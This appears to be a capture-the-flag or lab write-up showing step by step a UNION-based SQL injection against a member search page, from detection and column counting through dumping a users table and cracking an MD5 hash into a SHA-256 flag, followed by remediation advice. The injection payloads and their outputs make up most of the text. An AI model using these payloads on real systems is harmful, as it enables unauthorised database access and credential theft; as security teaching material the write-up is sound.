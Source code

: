 ```
http://{IP_ADDRESS}/?page=member
```

When we entered the Members page, we saw that we could search for a user.
After writing "1" in the search section, we encountered something like this:

```html
ID: 1
First name: one
Surname: me
```

Then we made our query as 2-1.

```html
ID: 2-1
First name: one
Surname: me
```

This way we understood the existence of SQL injection. You can test with "1 AND 1=1" or other variations if you prefer.

Now when using our own query, we'll use `UNION SELECT`, but the number of columns in the original query must exactly match the number of columns from our injection.
For this reason, we need to find the number of columns.

```
1 ORDER BY 1        ✔

1 ORDER BY 2        ✔

1 ORDER BY 3        X

Unknown column '3' in 'order clause'
```

We learned there are 2 columns.

```
1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()  
```

We execute this query.

```
ID: 1 UNION SELECT null, concat (table_name) from information_schema.tables where table_schema = database ()   
First name: 
Surname : users
```

Now that we know the table name:

```
1 UNION SELECT table_name, column_name FROM information_schema.columns
```

With this query we call table_name and column_name. The part that will be relevant for us is the `users` part.

```
[...]
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
[...]
```

```
1 UNION SELECT first_name, user_id FROM users

1 UNION SELECT first_name, first_name FROM users

1 UNION SELECT first_name, last_name FROM users

1 UNION SELECT first_name, town FROM users

1 UNION SELECT first_name, country FROM users

1 UNION SELECT first_name, planet FROM users

1 UNION SELECT first_name, Commentaire FROM users

1 UNION SELECT first_name, countersign FROM users

```

You can query each one individually to learn more.

```
-1 UNION SELECT Commentaire, countersign from users
```

```
ID: -1 union select Commentaire, countersign from users 
First name: Je pense, donc je suis
Surname : 2b3366bcfd44f540e630d4dc2b9b06d9

ID: -1 union select Commentaire, countersign from users 
First name: Aamu on iltaa viisaampi.
Surname : 60e9032c586fb422e2c16dee6286cf10

ID: -1 union select Commentaire, countersign from users 
First name: Dublin is a city of stories and secrets.
Surname : e083b24a01c483437bcf4a9eea7c1b4d

ID: -1 union select Commentaire, countersign from users 
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

We looked at what this hash might be using the website we used in our previous project. You can use tools like `hashid` or any hash finder if you prefer.

```
https://www.dcode.fr/
```

We had it automatically analyzed and saw it was MD5, and when decrypted:

It turned out to be `FortyTwo`. Now we'll make everything lowercase and hash it with sha256.

```
 ~  echo -n "fortytwo" | sha256sum
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5  -
```


## How to fix

-   Use Prepared Statements. Data received from users is not directly included in SQL queries. Instead, data is bound to the query as parameters and processed securely by the database engine, which prevents SQL Injection attacks.

-   Restrict SQL account permissions to limit possible damage in case of an attack.

-   Hide error messages, even though this doesn't directly prevent SQL injection.

-   You can filter user inputs.

-   Use WAF (Web Application Firewall).